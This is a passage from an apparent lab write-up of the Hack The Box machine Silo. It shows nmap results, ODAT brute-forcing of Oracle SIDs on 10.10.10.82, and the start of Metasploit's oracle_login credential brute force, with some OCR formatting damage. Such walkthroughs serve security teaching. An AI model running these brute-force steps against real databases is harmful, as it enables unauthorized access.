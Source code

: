 ```plaintext
|_  start_date: 2018-08-03 11:47:06
```

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 171.99 seconds  
With the result of the previous scan, we could see that this server probably has Windows Server 2008 R2 and on the other hand has port 80 enabled (Microsoft IIS httpd 8.5).  
For this pentesting, we are going to focus on port 1521, which indicates to be an oracle-tns service.

## **Brute force to identify the SID**

To continue, we are going to audit this Oracle database with the ODAT tool.  
ODAT is an open source pentesting tool designed to attack and audit the security of Oracle Database servers.  
The next steps are:

List Oracle Database Version  
Discovery of SIDs (An ID is represented as a unique “database instance”)  
Obtain a user account (Through bruteforcing)  
Exploitation / Escalation of privileges.  
We can use the ODAT\_ follower to find out either:\_

```plaintext
`╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # ./odat.py sidguesser -s 10.10.10.82

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'SAMPLE' is a valid SID. Continue...
[+] 'SCAN4' is a valid SID. Continue...
[+] 'XE' is a valid SID. Continue...
[+] 'XEXDB' is a valid SID. Continue...
100% |##############################################| Time: 00:10:55
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |##############################################| Time: 00:00:12
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...
100% |##############################################| Time: 00:07:31
[+] SIDs found on the 10.10.10.82:1521 server: SAMPLE,SCAN4,XE,XEXDB
```

## Brute force to find correct credentials

From the results, we identified 4 possible SIDs (SAMPLE,SCAN4,XE,XEXDB).\`  
Next, we will need to identify valid credentials to authenticate to the database.  
For this task, we can use a metasploit helper module called oracle\_login.

\`  
`msf5 > use admin/oracle/oracle_login   msf5 auxiliary(admin/oracle/oracle_login) > set RHOST 10.10.10.82   RHOST => 10.10.10.82   msf5 auxiliary(admin/oracle/oracle_login) > set SID XE   SID => XE   msf5 auxiliary(admin/oracle/oracle_login) > run -j   [*] Auxiliary module running as background job 0.`
